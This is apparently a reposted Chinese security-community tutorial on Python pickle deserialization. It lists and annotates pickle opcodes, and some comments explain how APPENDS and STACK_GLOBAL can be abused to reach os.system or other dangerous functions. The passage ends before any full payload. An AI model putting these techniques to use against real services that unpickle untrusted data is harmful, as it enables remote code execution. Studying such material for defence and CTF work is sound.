









# pickle&types.CodeType实现接管任意函数-先知社区

> **来源**: https://xz.aliyun.com/news/18618  
> **文章ID**: 18618

---

瓦达西：**Jiecub3**

> 前言：其实很早很早之前就写好了，但是没发，最近来搞文章
>
> 参考：<https://xz.aliyun.com/t/7436?time__1311=n4%2BxnD0Dy7GQDt%3DG%3DGCDlhjeP7Ki%3D%3DWhbCCeC84D#toc-4>
>
> 这篇文章给我很大帮助，很感谢这篇文章，前一天我也是对pickle一窍不通，虽然早就接触过但都是脚本小子，正巧有道题引起了我，让我慢慢道来，让你一文速通pickle

## 前置知识

> 前置知识都搬参考文章的

|  |  |  |  |
| --- | --- | --- | --- |
| 指令 | 描述 | 具体写法 | 栈上的变化 |
| c | 获取一个全局对象或import一个模块 | c[module]\ [instance]\ | 获得的对象入栈 |
| o | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 |
| i | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\ [callable]\ | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 |
| N | 实例化一个None | N | 获得的对象入栈 |
| S | 实例化一个字符串对象 | S'xxx'\ （也可以使用双引号、等python字符串形式） | 获得的对象入栈 |
| V | 实例化一个UNICODE字符串对象 | Vxxx\ | 获得的对象入栈 |
| I | 实例化一个int对象 | Ixxx\ | 获得的对象入栈 |
| F | 实例化一个float对象 | Fx.x\ | 获得的对象入栈 |
| R | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R | 函数和参数出栈，函数的返回值入栈 |
| . | 程序结束，栈顶的一个元素作为pickle.loads()的返回值 | . | 无 |
| ( | 向栈中压入一个MARK标记 | ( | MARK标记入栈 |
| t | 寻找栈中的上一个MARK，并组合之间的数据为元组 | t | MARK标记以及被组合的数据出栈，获得的对象入栈 |
| ) | 向栈中直接压入一个空元组 | ) | 空元组入栈 |
| l | 寻找栈中的上一个MARK，并组合之间的数据为列表 | l | MARK标记以及被组合的数据出栈，获得的对象入栈 |
| ] | 向栈中直接压入一个空列表 | ] | 空列表入栈 |
| d | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d | MARK标记以及被组合的数据出栈，获得的对象入栈 |
| } | 向栈中直接压入一个空字典 | } | 空字典入栈 |
| p | 将栈顶对象储存至memo\_n | pn\ | 无 |
| g | 将memo\_n的对象压栈 | gn\ | 对象被压栈 |
| 0 | 丢弃栈顶对象 | 0 | 栈顶对象被丢弃 |
| b | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b | 栈上第一个元素出栈 |
| s | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 |
| u | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u | MARK标记以及被组合的数据出栈，字典被更新 |
| a | 将栈的第一个元素append到第二个元素(列表)中 | a | 栈顶元素出栈，第二个元素（列表）被更新 |
| e | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e | MARK标记以及被组合的数据出栈，列表被更新 |

不太看得懂`序列化的数据`，不理解的可以看下面两个动图，很快就理解了，还不太理解可以再看看参考文章的demo，反正这个地方你要完全能看懂`序列化的poc`





### 比较全的指令集

```
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.
# 说明:
# 1.如果对栈顶元素只说了取出,而没有说弹出的话那就说明只是将栈顶元素复制一份放到一个变量或者就是后面的操作对栈顶元素进行更新修改,但是这个栈顶元素是不会弹出的
# 2.部分说明中对数据进行操作先弹出然后进行操作再进行压栈,但是对照源码可能是对栈数组直接进行直接截取而并没有pop弹出或者append的压栈操作,我这里描述为弹出和压栈的过程是为了便于理解
# 3.用于指定后面需要读取的数据大小的字节读出来之后,有可能是按照字符字面大小读取,也可能是按照其16进制大小进行数据读取,例如字符'1'='\x31',0x31=49可能是读取1字节大小也肯能是读取49字节大小,注意我的注释描述
# 4._struct.unpack解压<i格式数据的时候需要传入4字节大小的数据,然后会把4个字节左右顺序调换,得到一个8位的16进制数,最后将其转为一个10进制整数,例如_struct.unpack('<i', b'\x00\x01\x00\x00')[0]=>0x00001000=>256
# 5.struct.unpack解压<Q格式数据则是需要传入8字节大小数据,转换操作同上,例如unpack('<Q', b'\x00\x01\x00\x00\x00\x00\x00\x00')[0] => 0x0000000000000100 => 256
MARK           = b'('   #向栈中压入一个Mark标记
STOP           = b'.'   #相当于停止当前的反序列化过程
POP            = b'0'   #从栈中pop出一个元素,就是删除栈顶元素
POP_MARK       = b'1'   #从栈中不断pop元素直到遇到Mark标记
DUP            = b'2'   #向栈中再压入一个当前的栈顶元素,就是复制一份当前栈顶元素然后进行压栈
FLOAT          = b'F'   #读取当前行到行末尾,然后转为float类型,向栈中压入一个float浮点数
INT            = b'I'   #向栈中压入一个int整数,整数就是当前行的最后一个字节,不过如果整数为01的时候压入的是True,为00的时候压入的是False
BININT         = b'J'   #从后面的输入中读取4个字节并且使用unpack通过'<i'的格式将4字节的buffer数据解包转为int类型,后面不能换行,直接家下一步的操作b"(S'a'
K\x01\x01\x01\x01."
BININT1        = b'K'   #和上面BININT一样,不过K操作只读取一个字节的数据b"(S'a'
K\x01."
LONG           = b'L'   #读取当前行到行末尾,然后转为int类型,但如果后面是字符L的话会先去掉最后一个字符L再转int
BININT2        = b'M'   #从后面的输入中读取2个字节并且使用unpack通过'<H'的格式将2字节的buffer作为一个2进制数解包为int,后面不能换行,直接加下一步的操作b"(S'a'
M\x01\x01."
NONE           = b'N'   #向栈中压入一个None元素,后面不能换行,直接加下一步的操作b"(S'a'
N."
PERSID         = b'P'   #读取当前行到行末尾,将读取到的数据作为id,通过persistent_load函数获得obj对象返回后将obj对象压栈,默认情况没用,要重写persistent_load函数才能生效
BINPERSID      = b'Q'   #和上面作用一样,从当前栈中弹出一个元素作为id,通过persistent_load...
REDUCE         = b'R'   #从当前栈中弹出两次元素,第一次是函数参数args,第二次是函数func,执行func(args)
STRING         = b'S'   #向栈中压入一个string字符串,内容就是后面的数据,后面的字符串第一个和最后一个必须是单引号b"(S'a'
S''a''
."
BINSTRING      = b'T'   #从后面数据读取4字节数据,通过unpack使用<i格式将数据解压后变为int类型, 然后将其作为一个长度, 后面读取这个指定长度的数据作为字符串进行压栈b"(S'a'
T\x10\x00\x00\x000123456789abcdef."
# _struct.unpack('<i', b"\x10\x00\x00\x00") => (16,)
SHORT_BINSTRING= b'U'   #先读取一个字节数据作为长度,然后按照这个长度读取字符串,读出的字符串压栈
UNICODE        = b'V'   #读出当前行后面的全部数据,然后进行Unicode解码,将解码内容压栈b'V\u0061
.'
BINUNICODE     = b'X'   #读出4字节数据通过unpack使用<I格式解压,将解压得到的数据作为长度,然后进行数据读取b'X\x10\x00\x00\x00abcdef0123456789.'
APPEND         = b'a'   #先pop出栈一个变量var1,然后获取当前栈顶元素var2,执行栈顶元素的append函数,就是将一开始的栈顶元素弹出,然后又加到下一个栈顶数组中b"]S'S1nKk'
a." => 得到['S1nKk']
BUILD          = b'b'   #这个操作就是设置元素属性的操作
# 先pop出栈一个变量var1,然后获取当前栈顶元素var2,获取var2的__setstate__子成员作为var3,如果var3非空,那就执行var3(var1),这个操作正常就是通过__setstate__设置变量的属性
# 但是上面的var3为空也有别的处理:
# 1.检查var1是否为tuple类型且长度为2,如果是的话那就将其分别赋值为state,slotstate
# 2.检查state是否为空,如果不为空尝试取出state.items()然后使用k,v键值对的方式便利,最后通过修改var2.__dict__的方式修改var2的属性,也就是使得var2[k]=v,var2.k=v
# 3.检查slotstate是否为空,如果不为空和第2步一样,取出slotstate.items()通过k,v键值对方式遍历,然后使用setattr方法设置var2属性,最后效果也是var2[k]=v,var2.k=v
GLOBAL         = b'c'   #导入一个模块,首先读取当前行后面的全部内容适应utf-8解码得到的字符串作为module,然后再读出下一行的内容同样解析出字符串作为那么,最后导入module.name这个包
DICT           = b'd'   #将栈中的数据弹出到上一个Mark为止,然后按照key:value的方式逐个解析然后放入到一个字典中,将最后得到的字典压栈b"(S'key1'
S'val1'
S'key2'
S'val2'
d." => {'key1': 'val1', 'key2': 'val2'}
EMPTY_DICT     = b'}'   #没什么好说的,就是往栈中压入一个空字典
APPENDS        = b'e'   #先将栈中元素不断弹出知道Mark标记,然后将弹出的全部元素放入items中,再取出栈顶作为list_obj,之后执行下面两步操作:
# 1.先取出extend=list_obj.extend,然后执行extend(items)
# 2.取出append = list_obj.append,然后使用for循环遍历items得到item,然后每次循环都执行一次append(item)
# 看到这里应该想到函数触发的方法,我们只需要使用b操作将list_obj的extend改为一个危险的函数方法,然后再让参数进入items,就可以通过extend(items)的方式调用任意构造的危险函数了
GET            = b'g'   #读取后面的全部本行数据,然后转为int类型放入变量i中,使用i作为索引,从缓存区取出数据mem[i],然后将这个从缓存中取出的变量压栈
BINGET         = b'h'   #后面读取一个字节的数据,然后使用字符16进制大小作为下标索引,从缓存mem中读数据,将读出的内容压栈,下面就是一个获取缓存中下标为1的数据的实例b"S'h0cksr'
p1
S't'
0h\x01."
INST           = b'i'   #两次pop出栈读出数据并且均进行解码操作使其变为字符串格式,
# 1. 第一第二次弹出的数据分别放入module和name中,先导入moudle模块,然后name通过.逐个获取出里面的子成员,最后返回目标子成员(可能是函数也可能是类或变量)var1
# 2. 继续进行出栈,直到遇到Mark标志,将出栈的数据作为参数,var1位方法,执行var1(Mark弹出数据)
# 3. 将生成的实例化对象压栈
LONG_BINGET    = b'j'   #先读出4字节大小数据流,然后通过unpack使用<I格式解压得到int类型数据i,将i作为下标,从缓存中获取变量mem[i],将获取到的数据压栈
LIST           = b'l'   #将上一次Mark之后的数据全部弹出,并且将其存放到一个数组中,然后在将这个数组压栈b"(S'S1nKk'
p1
S't'
l."
EMPTY_LIST     = b']'   #没什么好说,往栈中压入一个空数组
OBJ            = b'o'   #先是将上一次Mark之后的数据全部弹出,得到一个数组var1,然后又在var1中pop取出最后一个数据作为var2,之后执行以下过程:
# 1.检查弹出数据后的var1数组是否为空,如果var1非空,或者弹出的var2属于type类型,或者弹出的var2有__getinitargs__属性成员,那么就会执行var2(var1)
# 2.如果以上条件均不满足,那就执行var2.__new__(var2)
# 3.将执行结果压入栈中
PUT            = b'p'   #读取后面全部当前行的数据,然后转为int类型的变量i,然后赋值当前栈顶元素存到memo[i]中
BINPUT         = b'q'   #和上一个一样,不同的是下标i是通过读取1个字节的数据,然后直接当做下标
LONG_BINPUT    = b'r'   #和上一个一样,不同的是下标i是通过读取4个字节的数据,然后通过unpack使用<I模式解压得到的整数当做下标
SETITEM        = b's'   #先在栈中pop弹出第一个数据作为value,然后在pop弹出第二个元素作为key,再获取当前栈顶元素记为dict,给栈顶元素赋值dict[key]=value
TUPLE          = b't'   #弹出上一次Mark之后的全部数据大农一个list数组中,然后使用tuple函数将其转为元组格式再把这个元组压入栈中
EMPTY_TUPLE    = b')'   #没什么好说,往栈中压入一个空元组
SETITEMS       = b'u'   #先弹出上一次Mark之后的全部元素放入一个数组items中,然后获取栈顶元素记为dict,通过i=0,2,3...获取items中的数据,执行dict[items[i]] = items[i + 1]给栈顶的字典元素添加键值对
BINFLOAT       = b'G'   #先读取8字节数据,然后使用unpack通过<d格式的解压,将得到的float数据压栈

TRUE           = b'I01
'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00
'  # not an opcode; see INT docs in pickletools.py

# Protocol 2

PROTO          = b'\x80'  #用于声明pickle协议版本
NEWOBJ         = b'\x81'#(这个很有用)  #从栈中弹出两次变量,第一次弹出的变量记为var1,第二次弹出的变量记为var2,然后就会通过cls.__new__(var2, *var1)生成实例化对象,然后将生成的对象压栈
EXT1           = b'\x82'  #'''\x82,\x83,\x84这三个操作都是和extension registry扩展注册表有关的,但是拓展注册表主要维护4个从copyreg导入的映射字典
EXT2           = b'\x83'  #     dispatch_tablecopyreg, _extension_registry, _inverted_registry, _extension_cache
EXT4           = b'\x84'  #     但是从头到尾貌似这几个核心表单都没有发生过变化(也可能是我没注意到而已)'''
TUPLE1         = b'\x85'  #将栈顶元素弹出放到一个元组中再将这个元组压栈,就是将栈顶放到一个元组里面的作用b"S'S1nk'
\x85." => ('S1nk',)
TUPLE2         = b'\x86'  #将栈顶的两个元素弹出,栈顶弹出为var1,继续弹出一个为var2,然后组成一个元组然后将这个元组压栈,得到(var2,var1),b"S'S1nk'
S'S1nKk'
\x86." => ('S1nk', 'S1nKk')
TUPLE3         = b'\x87'  #和上面一样,不够该操作是弹出三个元素形成元组b"S'S1nK'
S'S11nK'
S'S111nK'
\x87." => ('S1nK', 'S11nK', 'S111nk')
NEWTRUE        = b'\x88'  #向栈中压入一个True
NEWFALSE       = b'\x89'  #向栈中压入一个False
LONG1          = b'\x8a'  #先读取一个字节,以该字节16进制数为大小size,从后面的数据读取size个字节,然后将读取到的数据转为long类型
LONG4          = b'\x8b'  #读取4字节数据,通过unpack的<i格式将数据解压得到一个整数,以这个整数为字节大小读取后面的数据

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]#就是元组操作合集,分别是向栈中压入空数组,将最后1个元素放入元组后将元组压栈,将最后2个元素放入元组后将元组压栈,将最后3个元素放入元组后将元组压栈

# Protocol 3 (Python 3.x)#这里要注意一下,后面的操作是有python3方才支持

BINBYTES       = b'B'   #先读取4字节数据通过unpack使用<i格式将数据解压,将得到的结果作为大小向后读取相应字节数,然后将读取到的全部字节压栈,注意一下,压栈的是原始的比特流数据b'B\x06\x00\x00\x00h0cksr.' => b'h0cksr'
SHORT_BINBYTES = b'C'   #读取一个字节,以它的16进制数作为大小向后读取对应字节的数据b'C\x06h0cksr.' => b'S1nKk'

# Protocol 4
SHORT_BINUNICODE = b'\x8c'  #先读取一个字节,以这个字节的16进制为大小向后读取对应字节的数据,然后使用utf-8的格式解码数据为字符串格式,然后将这个字符串压栈b'\x8c\x06S1nKk.' => S1nKk
BINUNICODE8      = b'\x8d'  #先读取8字节数据然后通过unpack使用<Q格式解压数据,将得到的结果作为大小向后读取相应字节数,然后将读取到的数据使用utf-8格式解压为字符串,将字符串压栈b'\x8d\x06\x00\x00\x00\x00\x00\x00\x00h0cksr.' => h0cksr
BINBYTES8        = b'\x8e'  #同上读取8字节数据<Q格式解压,然后读取数据,但是直接将比特流数据压栈而不会解码b'\x8e\x06\x00\x00\x00\x00\x00\x00\x00S1nKk.' => b'S1nKk'
EMPTY_SET        = b'\x8f'  #向栈中压入一个set类型的空集合(set()没有指定iterable的时候返回的是一个空集合)
ADDITEMS         = b'\x90'  #先pop弹出一个元素作为items,记栈顶元素为top,然后检查top是否为set类型,如果是的话就执行top.update(items),如果top不是set类型那就使用for遍历items,逐个执行top.add(item)
FROZENSET        = b'\x91'  #弹出栈顶元素作为items,然后执行frozenset(items)生成一个frozenset类型的变量,并将这个变量压栈
NEWOBJ_EX        = b'\x92'#(这个很有用)  #和NEWOBJ差不多,先从栈中弹出三个元素,第一个,第二个,第三个弹出的元素分别记为var1,var2,var3,然后执行cls.__new__(var3, *var2, **var1)之后将执行生成的对象压栈
STACK_GLOBAL     = b'\x93'#(这个很有用)  #和GLOBAL操作一样但是导入的模块从栈上获取,先弹出一个元素为name,然后再弹出一个元素moudle,要求两个元素都必须是字符串类型,然后到处moudle.name,在将导出的内容压栈b"S'os'
S'system'
\x93." => os.system
MEMOIZE          = b'\x94'  #将当前栈顶元素添加到缓存列表的末尾(注意栈顶不会弹出)
FRAME            = b'\x95'  #后面先是读取8字节数据通过unpack使用<Q格式将数据解压得到的结果作为大小,向后读取对应字节的数据,然后将读取到的数据进行正常pickle反序列化(感觉用不用这个操作没啥差别,但是细节差别的话看源码)
```

好，正片开始

### 小demo

看完上面现在是处于看得懂序列化数据的了

然后看到参考文章中两个变量覆盖的demo，这个不止可以变量覆盖，可以用来我们`验证手搓反序列化`，后面会用到

```
class Student:
    def __init__(self, name, age):
        self.name = name
        self.age = age

data=b'''c__main__
Student
(S'XiaoMing'
S"20"
tR.'''

